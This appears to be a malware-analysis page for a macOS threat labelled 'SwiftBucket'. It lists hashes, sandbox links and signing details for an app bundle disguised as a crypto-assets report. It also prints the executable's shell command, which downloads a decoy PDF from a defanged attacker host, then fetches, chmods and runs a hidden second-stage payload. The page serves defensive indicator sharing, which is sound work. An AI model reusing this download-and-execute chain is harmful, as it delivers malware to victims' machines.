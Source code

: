 # 2023 - SwiftBucket 


### `Crypto-assets and their risks for financial stability.app.zip`
- 2023-10-24 08:13:18 UTC
- https://www.virustotal.com/gui/file/47b8b4d55d75505d617e53afcb6c32dd817024be209116f98cbbc3d88e57b4d1
- MD5: 90385d612877e9d360196770d73d22d6
- SHA-1: 09ade0cb777f4a4e0682309a4bc1d0f7d4d7a036
- SHA-256: 47b8b4d55d75505d617e53afcb6c32dd817024be209116f98cbbc3d88e57b4d1
- Note: ZIP Compressed Archive


### `Crypto-assets and their risks for financial stability.app`
- https://www.virustotal.com/gui/file/c556baaac706191ce75c9263b349242caa3d8efca7b5639896fa3e6570d7c76e
- https://tria.ge/231024-t135tsad67/behavioral1
- MD5: 3b3b3b9f7c71fcd7239abe90c97751c0
- SHA-1: 5c93052713f317431bf232a2894658a3a4ebfad9
- SHA-256: c556baaac706191ce75c9263b349242caa3d8efca7b5639896fa3e6570d7c76e
- Note: Malicious MacOS Application Bundle
- Signature Info
- User ID: 2C4CB2P247
- Common Name: Developer ID Application: Northwest Tech-Con Systems Ltd (2C4CB2P247)
- Organizational Unit: 2C4CB2P247
- Organization: Northwest Tech-Con Systems Ltd
- Country or Region: CA


### The Malicious MacOS Application Bundle executes the following:


### `EdoneViewer`
- https://www.virustotal.com/gui/file/c9a7b42c7b29ca948160f95f017e9e9ae781f3b981ecf6edbac943e52c63ffc8
- https://www.hybrid-analysis.com/sample/c9a7b42c7b29ca948160f95f017e9e9ae781f3b981ecf6edbac943e52c63ffc8?environmentId=400
- MD5: 1fddf14984c6b57358401a4587e7b950
- SHA-1: be903ded39cbc8332cefd9ebbe7a66d95e9d6522
- SHA-256: c9a7b42c7b29ca948160f95f017e9e9ae781f3b981ecf6edbac943e52c63ffc8
- Note: Malicious MacOS Mach-O Executable (Unknown Malware)

This universal Mach-O binary contains binaries for x86_64 and ARM64 architectures:

- x86_64 - SHA-256: `7c5bf60787bfd076c8806eaa4f1185f5b9fda69008376624ab3d17f207eb16a4`
- ARM64 - SHA-256: `bc90adde92bd47b4de7d384e5b20c1a1791d603629bd0fcba4b550fb35e93216`

During execution, the Malicious MacOS Mach-O Executable executes the commands:
- `sh -c "curl -o \"/users/shared/Crypto-assets and their risks for financial stability.pdf\" http://on-global[.]xyz/Ov56cYsfVV8/OJITWH2WFx/Jy5S7hSx0K/fP7saoiPBc/A%3D%3D -A cur1-agent&& open \"/users/shared/Crypto-assets and their risks for financial stability.pdf\"&& curl -o /users/shared/.pw http://on-global[.]xyz/Of56cYsfVV8/OJITWH2WFx/Jy5S7hSx0K/fP7saoiPBc/A%3D%3D -A cur1-agent -d pw&& chmod 770 /users/shared/.pw&& /bin/zsh -c \"/users/shared/.pw http://on-global[.]xyz/Of56cYsfVV8/OJITWH2WFx/Jy5S7hSx0K/fP7saoiPBc/A%3D%3D &\" &> /dev/null"`
